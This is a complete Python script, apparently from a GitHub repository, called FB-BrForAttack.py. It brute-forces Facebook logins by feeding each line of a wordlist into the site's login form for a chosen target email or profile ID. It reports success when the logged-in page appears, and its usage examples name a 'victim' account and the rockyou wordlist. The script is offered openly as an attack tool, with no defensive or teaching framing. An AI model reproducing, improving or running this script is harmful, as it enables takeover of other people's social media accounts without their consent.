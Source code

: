 #!/usr/bin/python
# -*- coding: utf-8 -*-

#(^-^)
try:
 ##----------- Import Libraries -----------##
 import socket,time,os,optparse,mechanize  ##
 ##----------------------------------------##
except ImportError:
	print("[!] The [ mechanize library ] is Missing!\n[*] Please Install it Using this command> [ pip install mechanize ]")
	exit(1)
################## check internet #################
server = "www.google.com"                         #
def check():                                      #
   try:                                           #
      s = socket.gethostbyname(server)            #
      ss = socket.create_connection((s, 80), 2)   #
      return True                                 #
   except:                                        #
         pass                                     #
   return False                                   #
                                                  #
check = check()                                   #
###################################################

parse = optparse.OptionParser("""
Usage: python ./FB-BrForAttack.py -T [TARGET]<Email/ID> -W <Wordlist file>
-------------
OPTIONS:
       |
    |--------    
    | -t <target email> [OR] <FACEBOOK ID>        ::>   Set target Email [OR] Target Profile ID
    |--------
    | -w <word list file>                         ::>   Set Wordlist File 
-------------
Examples:
        |
     |--------
     | python FB-BrForAttack.py -t victim@gmail.com -w /usr/share/wordlists/rockyou.txt
     |--------
     | python FB-BrForAttack.py -t 100001013078780 -w C:\Users\Me\Desktop\wordlist.txt
     |--------

""")
def Main():
   parse.add_option("-t","--target",'-T','--TARGET',dest="taremail",type="string",
			help="target email !")
   parse.add_option("-w","--wordlist",'-W','--WORDLIST',dest="wlst",type="string",
			help="wordlist file !")
   (options,args) = parse.parse_args()

   if options.taremail !=None and options.wlst !=None: 
     user = options.taremail
     passw = options.wlst
     global check
     if check == True:
         try:
             passwfile = open(passw, "r")
         except IOError:
             print("\n[!] No Such File: "+passw+"  !!!\n")
             exit(1)
         os.system("cls||clear")
         time.sleep(0.10)
         print("\n[*] website>: www.facebook.com ")
         time.sleep(0.10)
         if "@" in user:
          print("\n[+] Target Email>: "+str(user))
         else:
             print("\n[+] Target FB~ID>: "+str(user))
         time.sleep(0.10)
         print("\n[@] WordList>: "+str(passw))
         time.sleep(0.10)
         print("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
         time.sleep(0.20)
         print("\n[$]--- FB-Adel Ait mouali ---[$]\n")
         time.sleep(0.8)
         lo = 1
         for password in passwfile:
             if not password.strip(): continue
             password = password.strip()
             try:
                 br=mechanize.Browser()
                 br.set_handle_robots(False)
                 br.addheaders=[('User-agent', "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36")]
                 br.open("https://facebook.com")
                 br.select_form(nr=0)
                 br.form["email"]=user
                 br.form["pass"]=password
                 br.method="POST"
                 res = br.submit()
                 if "home_icon" in res.get_data():
                     print("[+]~[{}] Testing Password[ {} ]  ==> Yes :)".format(lo,password))
                     print ("\n[*] Found! Password is ==> "+ password)
                     break
                 else:
                     print('[-]~[{}] Testing Password[ {} ] ==> No :('.format(lo,password))
                     lo +=1
             except KeyboardInterrupt:
                 print('\n---------------------------\n[!][CTRL+C] Exiting.....!\n')
                 time.sleep(1.2)
                 exit(1)
			
     elif check == False:
         print("\n[!] Error: Please Check Your Internet Connection !!!")
         exit(1)
   else:
       print(parse.usage)
       exit(1)
	
if __name__=='__main__':
	Main()
	
##############################################################
##################### 		     #########################
#####################   END OF TOOL  #########################
#####################                #########################
##############################################################
#This Tool by Oseid Aldary
#Have a nice day :)
#GoodBye
